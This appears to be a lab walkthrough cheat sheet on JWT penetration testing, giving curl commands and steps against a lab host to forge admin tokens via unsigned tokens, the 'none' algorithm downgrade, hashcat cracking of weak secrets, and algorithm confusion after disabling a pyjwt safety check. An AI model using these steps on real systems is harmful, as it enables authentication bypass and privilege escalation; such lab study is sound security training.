 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT Token)

### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

 - curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

### Grab the plain text JWT header, change the Alg to None and encode it with base64.

### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

 - curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 4) Weak Symmetric Secrets

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

 - nano jwt.txt (Save the retrieved JWT in a text file)

 - wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list (Download this wordlist for JWT secrets)

 - hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list (Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access)

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

 - curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 5) Signature Algorithm Confusion

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token with the public key in this example)

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.

 - pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

 - python3 signature-confusion-JWT.py (Run the script to generate our forged JWT token)
